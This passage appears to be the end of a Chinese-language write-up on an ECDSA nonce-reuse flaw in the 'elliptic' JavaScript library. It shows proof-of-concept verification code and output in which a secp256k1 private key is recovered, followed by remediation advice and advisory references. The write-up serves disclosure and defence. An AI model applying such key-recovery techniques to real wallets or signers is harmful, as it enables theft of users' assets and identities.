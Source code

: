 ```
console.log('Curve:', curve)
console.log('Typeof:', typeof msg1)
console.log('Keys equal?', Buffer.from(privateKey).toString('hex') === Fake_privateKey)
const rnd = crypto.getRandomValues(new Uint8Array(32))
const st = (x) => JSON.stringify(x)
console.log('Keys equivalent?', st(ec.sign(rnd, Fake_privateKey).toDER()) === st(ec.sign(rnd, privateKey).toDER()))
console.log('Orig key:', Buffer.from(privateKey).toString('hex'))
console.log('Restored:', Fake_privateKey)
```



运行输出：

```
Curve: secp256k1
Typeof: object
Keys equal? true
Keys equivalent? true
Orig key: dcd768c5a8346fe51d24377b1e7c47b2afa6d5e8a4fd12de685fce59d4d83e8d
Restored: dcd768c5a8346fe51d24377b1e7c47b2afa6d5e8a4fd12de685fce59d4d83e8d
```

# ** **

# **修复建议**



\1. 升级 elliptic 至 6.6.1+，官方已修复该问题。

\2. 避免直接签名未经验证的消息，确保 msg 经过标准化处理。

\3. 更换可能受影响的私钥。

# ** **

# **总结**



elliptic 的这个漏洞暴露了 ECDSA 签名对随机数 k 的极端敏感性。一旦 k 复用，私钥便可被直接恢复，攻击者可完全控制用户资产和身份。开发者应及时修复漏洞，并严格规范输入处理，以确保 ECDSA 签名的安全性。最后，感谢 Rabby 钱包提供的漏洞情报。



**参考资料**

[1] https://github.com/indutny/elliptic/security/advisories/GHSA-vjh7-7g9h-fjfh
[2] https://paulmillr.com/posts/deterministic-signatures



